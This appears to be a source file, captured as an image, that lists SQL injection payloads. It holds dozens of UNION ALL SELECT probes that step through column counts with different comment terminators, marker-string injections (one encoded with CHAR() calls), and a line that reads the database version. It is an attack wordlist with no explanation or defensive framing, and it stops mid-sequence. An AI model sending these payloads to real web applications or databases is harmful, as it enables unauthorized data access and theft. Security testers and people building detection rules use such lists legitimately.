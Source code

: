 ```
UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28#
UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28-- 
UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29
UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29#
UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29-- 
UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30
UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30#
UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30-- 
' UNION ALL SELECT 1, @@version;#
UNION ALL SELECT CHAR(113)+CHAR(106)+CHAR(122)+CHAR(106)+CHAR(113)+CHAR(110)+CHAR(106)+CHAR(99)+CHAR(73)+CHAR(66)+CHAR(109)+CHAR(119)+CHAR(81)+CHAR(108)+CHAR(88)+CHAR(113)+CHAR(112)+CHAR(106)+CHAR(107)+CHAR(113),NULL-- 
UNION ALL SELECT 'INJ'||'ECT'||'XXX'
UNION ALL SELECT 'INJ'||'ECT'||'XXX'#
UNION ALL SELECT 'INJ'||'ECT'||'XXX'-- 
UNION ALL SELECT 'INJ'||'ECT'||'XXX',2
UNION ALL SELECT 'INJ'||'ECT'||'XXX',2#
UNION ALL SELECT 'INJ'||'ECT'||'XXX',2-- 
UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3
UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3#
UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3-- 
UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4
UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4#
UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4-- 
UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5
UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5#
UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5-- 
UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6
UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6#
UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6-- 
UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7
UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7#
UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7-- 
UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8
UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8#
UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8-- 
UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9
UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9#
UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9-- 
UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10
UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10#
UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10-- 
UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11
UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11#
UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11-- 
UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12
UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12#
UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12-- 
UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13
UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13#
UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13-- 
UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14
UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14#
UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14-- 
UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15
UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15#
UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15-- 
UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16
UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16#
UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16-- 
UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17
UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17#
```